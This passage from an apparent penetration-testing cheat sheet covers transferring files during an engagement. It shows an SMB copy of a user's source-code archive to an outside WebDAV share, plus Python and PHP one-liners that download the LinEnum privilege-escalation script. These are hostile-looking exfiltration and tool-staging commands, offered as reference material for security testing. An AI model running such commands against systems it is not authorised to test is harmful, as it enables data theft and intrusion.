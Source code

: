 and then, copy a file:

```
copy n:\<file>
```

> Copy a file from the SMB server

Example to download a file from the SMB server to the current working directory, we can use the following command:

```
copy \\<pathFile>
```

Example:

```
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```



## Download files with Python2 and Python3

> Example with Python2:

```
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

> Example with Python3:

```
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```



## Download Files with PHP

Let's see some examples of downloading files using PHP.

> Download content with PHP

Example with File_get_contents():

```
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

Example with Fopen():

```
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```
